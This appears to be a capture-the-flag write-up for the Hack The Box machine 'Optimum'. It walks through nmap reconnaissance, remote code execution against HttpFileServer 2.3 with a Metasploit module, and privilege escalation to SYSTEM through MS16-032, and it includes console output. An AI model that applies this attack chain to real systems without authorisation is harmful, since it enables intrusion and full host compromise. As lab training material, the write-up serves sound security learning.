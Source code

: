 # Optimum

## Recon

Grab the target IP address and run `nmap` against it:

```
$ nmap -sV -sC -p- -T4 -oN nmap_scan.txt 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.15s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see that the target is only running HTTP. More specifically, it's hosting an
HttpFileServer. 

## Vulnerability Discovery

A quick web search for "HttpFileServer 2.3" yields exploits from
[exploit-db](https://www.exploit-db.com/exploits/39161) and
[rapid7](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/).

Both links state that this server is vulnerable to remote code execution by
using '%00' (null byte) to bypass a filter.

Now that we know what exploit to use, let's fire up metasploit.

## Exploitation

Once metasploit has loaded:

```
msf > use exploit/windows/http/rejetto_hfs_exec
msf exploit(rejetto_hfs_exec) > show options
... show and set options...
msf exploit(rejetto_hfs_exec) > exploit
...
meterpreter >
```

We have a shell! Time to get the user flag:

```
meterpreter > getuid
Server username: OPTIMUM\kostas
meterpreter > dir
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2021-04-07 22:49:48 -0400  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 07:57:16 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 06:58:52 -0500  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 08:13:18 -0400  user.txt.txt

meterpreter > cat user.txt.txt
```

## Privilege Escalation

Run `sysinfo` to get system information about the target:

```
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

I Googled for "Windows 2012 R2 (6.3 Build 9600) privilege escalation" and found
a link to [(MS16-032) local privilege escalation from
exploit-db](https://www.exploit-db.com/exploits/39719).

We can exploit this manually with the linked powershell script, or use
metasploit. Since I already have an active meterpreter session, I went with
metasploit.

```
meterpreter > background
...
msf > search ms16-032
msf > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf (windows/local/ms16_032_secondary_logon_handle_privesc) > show targets
... show and set targets ...
msf (windows/local/ms16_032_secondary_logon_handle_privesc) > show options
... show and set options ...
msf (windows/local/ms16_032_secondary_logon_handle_privesc) > run
```

You should now have a second meterpreter session as the SYSTEM user!

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

From here, grabbing the root flag is easy:

```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  03:14     <DIR>          .
18/03/2017  03:14     <DIR>          ..
18/03/2017  03:14                 32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.892.807.680 bytes free

C:\Users\Administrator\Desktop>more root.txt
```

